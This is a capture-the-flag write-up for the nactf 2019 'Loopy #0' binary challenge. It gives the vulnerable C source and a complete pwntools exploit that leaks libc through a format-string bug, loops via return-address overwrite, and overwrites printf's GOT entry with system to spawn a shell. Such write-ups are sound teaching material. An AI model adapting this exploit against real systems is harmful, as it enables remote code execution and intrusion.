

+++
title = "nactf 2019 - Loopy #0"
date = 2019-09-22T20:39:04.285Z
updated = 2019-11-24T03:53:01.555Z
aliases = ["/posts/5d87dbe86e58ed23d8620868-nactf-2019-loopy-0-1"]
[taxonomies]
tags = ['nactf2019', 'binary-exploitation', 'pwntools', 'format-string', 'return-oriented-programming']
categories = ["ctf-writeups"]
+++

# Challenge

> This program is quite short, but has got `printf` and `gets` in it! This shouldn't be too hard, right?
>
> Connect at `nc shell.2019.nactf.com 31283`

We are given the libc used, the binary, and the source code.

```cpp
#include <stdio.h>

void vuln()
{
	char buf[64];
	fputs("Type something>", stdout);
	gets(buf);
	fputs("You typed: ", stdout);
	printf(buf);
}

int main()
{
	/* Disable buffering on stdout */
	setvbuf(stdout, NULL, _IONBF, 0);

	vuln();

	return 0;
}
```

<!-- more -->

# Solution

Because there is no win function like in the previous challenges, this requires us to call `system('/bin/sh')`. To do 
this, we need to leak the base address that `libc` is loaded at, and then add the offset to `system` before jumping to it.

## Leaking libc

To leak `libc`, we can use the format string vulnerability to read from the GOT. By trial and error, we see that the 
stack offset to `buf` with `printf` is 4: 



So, we can use `%4$s` to read the fourth value on the stack as a string. Since we control this value, we can read 
arbitrary addresses.

To read the value of `puts` in the GOT (address is `0x804c010`), we can do the following:
```python
payload1 = p32(0x804c010) + "%4$s"
```
This will give us the value that is stored at `0x804c010` which is the address of puts in memory. From this, we can 
calculate the address of `system`:
```python
GETS_ADDR = u32(r.recvn(4))
LIBC_BASE = GETS_ADDR - libc.symbols['gets']
SYSTEM_ADDR = LIBC_BASE + libc.symbols['system']
```

## Looping
However, we still need `printf` to overwrite a GOT entry. To keep looping, we can overflow `buf` and overwrite the 
return pointer:

``` python
payload1 = p32(0x804c010) + "%4$s"
payload2 = p32(elf.symbols['main'])*4
payload = payload1.ljust(64) + payload2
```

## Overwriting a GOT Entry
I chose to overwrite the GOT entry of `printf` because it is passed `buf` as its only argument. To do this, we can use 
the `%hn` format string to overwrite 2 bytes at a time:
```python
GOT_PRINTF = elf.got['printf']
GOT_PRINTF_LO = GOT_PRINTF
GOT_PRINTF_HI = GOT_PRINTF + 0x2

SYSTEM_ADDR_HI = SYSTEM_ADDR >> 16
SYSTEM_ADDR_LO = SYSTEM_ADDR - (SYSTEM_ADDR_HI << 16)

print("PRINTF GOT: " + hex(GOT_PRINTF))
print("SYSTEM_LO: " + hex(SYSTEM_ADDR_LO))
print("SYSTEM_HI: " + hex(SYSTEM_ADDR_HI))

p2 = SYSTEM_ADDR_LO
p1 = SYSTEM_ADDR_HI - p2

print(p1)
print(p2)

pad1 = "%" + str(p1) + "x"
pad2 = "%" + str(p2) + "x"

payload1 = pad2 + "%21$hn" + pad1 + "%20$hn;sh"
payload = payload1.ljust(64) + p32(GOT_PRINTF_HI) +  p32(GOT_PRINTF_LO) + payload2
r.sendline(payload)
```
# Full Script
```python
from pwn import *

elf = ELF('./loopy-0')
libc = ELF('./libc')
r = remote('shell.2019.nactf.com', 31283)

r.recvuntil('>')

payload1 = p32(0x804c010) + "%4$s"
payload2 = p32(elf.symbols['main'])*4
payload = payload1.ljust(64) + payload2

r.sendline(payload)
r.recvuntil(': ')
r.recvn(4)

GETS_ADDR = u32(r.recvn(4))
LIBC_BASE = GETS_ADDR - libc.symbols['gets']
SYSTEM_ADDR = LIBC_BASE + libc.symbols['system']
print("GETS: " + hex(GETS_ADDR))
print("LIBC: " + hex(LIBC_BASE))
print("SYSTEM: " + hex(SYSTEM_ADDR))

GOT_PRINTF = elf.got['printf']
GOT_PRINTF_LO = GOT_PRINTF
GOT_PRINTF_HI = GOT_PRINTF + 0x2

SYSTEM_ADDR_HI = SYSTEM_ADDR >> 16
SYSTEM_ADDR_LO = SYSTEM_ADDR - (SYSTEM_ADDR_HI << 16)

print("PRINTF GOT: " + hex(GOT_PRINTF))
print("SYSTEM_LO: " + hex(SYSTEM_ADDR_LO))
print("SYSTEM_HI: " + hex(SYSTEM_ADDR_HI))

p2 = SYSTEM_ADDR_LO
p1 = SYSTEM_ADDR_HI - p2

print(p1)
print(p2)

pad1 = "%" + str(p1) + "x"
pad2 = "%" + str(p2) + "x"

payload1 = pad2 + "%21$hn" + pad1 + "%20$hn;sh"
payload = payload1.ljust(64) + p32(GOT_PRINTF_HI) +  p32(GOT_PRINTF_LO) + payload2
r.sendline(payload)

r.interactive()
```
